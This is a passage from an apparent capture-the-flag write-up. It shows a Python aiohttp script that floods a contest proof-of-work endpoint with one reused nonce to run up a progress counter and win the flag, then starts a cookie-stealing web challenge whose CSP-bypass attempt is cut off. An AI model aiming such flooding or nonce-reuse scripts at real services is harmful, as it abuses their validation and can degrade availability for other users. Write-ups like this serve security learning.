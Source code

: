 After sometime i tried to add the same number to the array that is passed in the body and i found out that it counts 2 to the progress: ["2862152","2862152"] == progress + 2. So i created a script that sends 10000 numbers each minute:

```py
import json
import time
import asyncio
import aiohttp

url = "https://web-pow-lz56g6.wanictf.org/api/pow"
data = ["2862152"] * 10000
progress = 0

async def fetch_url(session, url):
    async with session.post(url,data=json.dumps(data)) as response:
        return await response.text()

async def main():
    not_found = True
    flag = ""
    async with aiohttp.ClientSession() as session:
        while not_found:
            tasks = [fetch_url(session, url) for i in range(20)]
            results = await asyncio.gather(*tasks)

            for result in results:
                print(result)
                if "FLAG" in result:
                    flag = result
                    not_found = False
            
            time.sleep(61)
    print(flag)


if __name__ == '__main__':
    asyncio.run(main())

```

Flag: `FLAG{N0nCE_reusE_i$_FUn`

## [Web] noscript

Ignite it to steal the cookie!

https://web-noscript-lz56g6.wanictf.org/

NOTE: In case the server is down, try the following backup server. 上記のサーバーが正しく動作していない場合は、次のバックアップサーバーを使用してください。

Basically you cant load javascript from anywhere because of content security policy.
Tried to update the policy inline:
